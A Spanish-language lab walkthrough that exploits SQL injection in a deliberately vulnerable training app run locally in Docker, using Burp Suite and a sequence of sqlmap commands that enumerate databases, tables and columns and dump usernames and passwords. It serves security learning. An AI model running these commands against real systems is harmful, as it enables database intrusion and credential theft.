 
----------
-  Tags: #Explotación #Manuales #Automatizadas #SQL #INJECTION
-----
# Explotación Manual
- **Empezamos clonando el repositorio:**
```
git clone https://github.com/appsecco/sqlinjection-training-app
```

- **Desplegamos el contenedor con:**
```
docker-compose up 
```

- **Ingresamos al localhost por el puerto 8000:**
```web
localhost:8000
```
- Aplastar en reset database y luego regresar al home para ingresar al "searchproducts.php - multiple exercises"
- Loguearse como admin admin
- Usar el **burpsuite** con el **FoxyProxy** para interceptar petición, en la opción Proxy de burpsuite guardamos el archivo en cuestión en nuestro directorio.
- Utilizamos la herramienta sqlmap para saber si es inyectable:
```sql
sqlmap -r request -p searchitem --batch
```
- Dumpeamos el requerimiento en caso de ser positivo la inyección.
```
sqlmap -r request -p searchitem --batch --dbs
```
- Para mostrar las tablas existentes en **sqlitraining**.
```sql
sqlmap -r request.req -p searchitem --batch -D sqlitraining --tables
```
- Indica dos tablas que podrían ser atacadas.
```
+---------+
|products | 
|users    |
+---------+
```
- Ahora enumeraremos las columnas.
```SQL
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users --columns
```
```
+-------------------+
|Column  |Type      |
+-------------------+
|description|varchar|
|fname      |varchar|
|id         |int    |
|password   |varchar|
|username   |varchar|
+-------------------+
```
- Ahora dumpeamos los valores de username y pasword
```
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users -C username,password --dump
```
![[Dumpeamos username y password.png]]


>**Repositorio en github del SQL INJECTION:**
 [sqlinjection-training-app](https://github.com/appsecco/sqlinjection-training-app)

